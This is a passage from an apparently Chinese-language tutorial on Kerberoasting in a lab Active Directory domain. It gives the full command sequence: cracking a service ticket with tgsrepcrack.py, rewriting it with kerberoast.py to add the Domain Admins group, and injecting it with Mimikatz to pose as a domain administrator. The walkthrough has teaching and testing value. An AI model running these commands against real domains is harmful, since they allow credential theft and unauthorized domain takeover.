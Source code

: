 ```plain
python3 tgsrepcrack.py wordlist.txt 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi
```

[![](assets/1699492330-b48ec6cf74186be4dc8a22c7c6cc1376.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108162709-9bb54248-7e10-1.png)  
之后我们还可以重写该Ticket：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -u 500
```

之后添加用户到域管理员：

```plain
python3 kerberoast.py -p "1234Rewq!@#$" -r 1-40810000-testuser@MSSQLSvc~win08-server.hacke.testlab-HACKE.TESTLAB.kirbi -w sql.kirbi -g 512
```

之后使用Mimikatz注入到RAM中：

```plain
kerberos::ptt sql.kirbi
```

之后伪造域管理员账户进行访问域内主机~

#### Rubeus
